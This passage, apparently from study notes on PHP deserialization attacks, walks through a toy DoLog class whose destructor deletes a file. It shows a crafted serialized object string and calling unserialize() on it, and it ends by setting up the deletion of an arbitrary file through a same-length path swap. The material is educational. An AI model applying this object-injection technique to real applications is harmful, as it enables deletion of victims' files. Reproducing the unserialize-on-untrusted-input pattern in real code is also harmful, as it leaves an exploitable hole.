 ```php
'O:5:"DoLog":1:{s:15:"' . "\0" . 'DoLog' . "\0" . 'filepath";s:16:"/tmp/history.log";}'
```

**Modifying the code by adding unserialization logic** 

```php
<?php
define ('LOG', '/tmp/');
class DoLog
{
	private $filepath;
	public function __construct()
	{
		$this->filepath = LOG . "history.log";
		touch($this->filepath);
	
	}
	
	public function __destruct()
	{
		echo "\n[+] Logfile " . ($this->filepath) . "is beign removed\n";
		unlink($this->filepath);
	}
}

$log = new DoLog();
var_Export(serialize($log));

$serialized = 'O:5:"DoLog":1:{s:15:"' . "\0" . 'DoLog' . "\0" . 'filepath";s:16:"/tmp/history.log";}';
$o = unserialize($serialized);

?>
```

Upon deserialization, the class’s magic methods will be run so that the file will be removed in the destructor function

`php v.php` 

![Untitled](../assets/img/study/attackserialization/Untitled%202.png)

The program tried to remove the log file **twice**, once upon the legitimate **class instantiation** and once upon the **deserialization**

Try to delete the arbitrary file. First need to create the `history.lol` file  → *Which has an equal filename length compared to the log file*

